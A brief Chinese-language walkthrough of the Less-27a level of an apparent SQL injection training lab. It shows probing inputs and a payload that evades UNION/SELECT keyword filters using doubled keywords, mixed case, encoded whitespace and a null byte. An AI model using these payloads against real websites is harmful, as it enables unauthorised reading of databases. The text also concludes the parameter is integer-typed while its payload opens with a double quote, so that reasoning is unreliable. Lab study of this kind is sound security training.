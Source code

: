 # Less-27a **GET Trick with SELECT & UNION**
TAG：GET型注入、SELECT/UNION过滤
## 漏洞利用  
此less为less27的变种，关闭了页面的报错显示，为判断参数包裹方式带来了一定的困难  
![less27a_1](images\less27a_1.png)  

这里采用less26a中用到过的判断方法  
Payload:```?id=1```  
![less27a_2](images\less27a_2.png)  
Payload:```?id=1'```  
![less27a_3](images\less27a_3.png)  
Payload:```?id=1"```  
![less27a_4](images\less27a_4.png)  
1和1'正常回显,1"无回显，可以判断为整型   
  
构造payload方式和less27相似    
Payload:```?id=0"%0auniunionon%a0SeLEct%0a1,database(),3;%00```  
![less27a_5](images\less27a_5.png)  